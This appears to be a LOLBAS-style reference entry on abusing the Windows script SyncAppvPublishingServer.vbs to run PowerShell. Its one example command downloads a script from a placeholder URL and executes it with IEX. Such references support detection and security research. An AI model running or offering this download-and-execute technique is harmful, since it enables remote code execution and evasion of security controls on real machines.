 ## SyncAppvPublishingServer.vbs
* Functions: Execute
```

SyncAppvPublishingServer.vbs "n;((New-Object Net.WebClient).DownloadString('http://some.url/script.ps1') | IEX"
Inject PowerShell script code with the provided arguments
```
   
* Resources:   
  * https://twitter.com/monoxgas/status/895045566090010624
  * https://twitter.com/subTee/status/855738126882316288
   
* Full path:   
  * C:\Windows\System32\SyncAppvPublishingServer.vbs
   
* Notes: Thanks to Nick Landers - @monoxgas, Casey Smith - @subTee  
   
